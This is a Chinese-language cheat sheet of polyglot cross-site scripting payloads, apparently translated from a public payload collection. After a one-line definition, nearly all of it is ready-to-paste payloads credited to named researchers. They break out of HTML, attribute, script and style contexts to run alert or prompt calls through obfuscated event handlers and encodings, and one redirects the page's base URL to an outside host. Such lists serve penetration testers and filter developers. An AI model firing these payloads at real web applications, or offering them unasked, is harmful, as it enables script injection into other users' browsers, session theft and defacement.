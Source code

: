 # 多语言XSS

多语言XSS是一种跨站脚本（XSS）有效负载，旨在在Web应用程序的多个上下文中工作，例如HTML、JavaScript和属性。它利用了应用程序在不同解析场景中无法正确清理输入的漏洞。

* 多语言XSS - 0xsobky

    ```javascript
    jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
    ```

* 多语言XSS - Ashar Javed

    ```javascript
    ">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
    ```

* 多语言XSS - Mathias Karlsson

    ```javascript
    " onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
    ```

* 多语言XSS - Rsnake

    ```javascript
    ';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
    ```

* 多语言XSS - Daniel Miessler

    ```javascript
    ';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
    “ onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
    '">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouseover=prompt(1)><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->"></script><script>alert(1)</script>"><img/id="confirm&lpar;1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http://i.imgur.com/P8mL8.jpg">
    javascript://'/</title></style></textarea></script>--><p" onclick=alert()//>*/alert()/*
    javascript://--></script></title></style>"/</textarea>*/<alert()/*' onclick=alert()//>a
    javascript://</title>"/</script></style></textarea/-->*/<alert()/*' onclick=alert()//>/
    javascript://</title></style></textarea>--></script><a"//' onclick=alert()//>*/alert()/*
    javascript:alert()//--></script></textarea></style></title><a"//' onclick=alert()//>*/alert()/*
    --></script></title></style>"/</textarea><a' onclick=alert()//>*/alert()/*
    /</title/'/</style/</script/</textarea/--><p" onclick=alert()//>*/alert()/*
    javascript://--></title></style></textarea></script><svg "//' onclick=alert()//
    /</title/'/</style/</script/--><p" onclick=alert()//>*/alert()/*
    ```

* 多语言XSS - [@s0md3v](https://twitter.com/s0md3v/status/966175714302144514)
    ![https://pbs.twimg.com/media/DWiLk3UX4AE0jJs.jpg](https://pbs.twimg.com/media/DWiLk3UX4AE0jJs.jpg)

    ```javascript
    -->'"/></sCript><svG x=">" onload=(co\u006efirm)``>
    ```

    ![https://pbs.twimg.com/media/DWfIizMVwAE2b0g.jpg:large](https://pbs.twimg.com/media/DWfIizMVwAE2b0g.jpg:large)

    ```javascript
    <svg%0Ao%00nload=%09((pro\u006dmpt))()//
    ```

* 多语言XSS - 来自[@filedescriptor的Polyglot挑战](https://web.archive.org/web/20190617111911/https://polyglot.innerht.ml/)

    ```javascript
    // 作者: crlf
    javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>

    // 作者: europa
    javascript:"/*'/*`/*\" /*</title></style></textarea></noscript></noembed></template></script/-->&lt;svg/onload=/*<html/*/onmouseover=alert()//>

    // 作者: EdOverflow
    javascript:"/*\"/*`/*' /*</template></textarea></noembed></noscript></title></style></script>-->&lt;svg onload=/*<html/*/onmouseover=alert()//>

    // 作者: h1/ragnar
    javascript:`//"//\"//</title></textarea></style></noscript></noembed></script></template>&lt;svg/onload='/*--><html */ onmouseover=alert()//'>`
    ```

* 多语言XSS - 来自[brutelogic](https://brutelogic.com.br/blog/building-xss-polyglots/)

    ```javascript
    JavaScript://%250Aalert?.(1)//'/*\'/*"/*\"/*`/*\`/*%26apos;)/*<!--></Title/</Style/</Script/</textArea/</iFrame/</noScript>\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(alert)(1)}//><Base/Href=//X55.is\76-->
    ```

## 参考资料

* [构建XSS多语言 - Brute - 2021年6月23日](https://brutelogic.com.br/blog/building-xss-polyglots/)
* [XSS多语言挑战v2 - @filedescriptor - 2015年8月20日](https://web.archive.org/web/20190617111911/https://polyglot.innerht.ml/)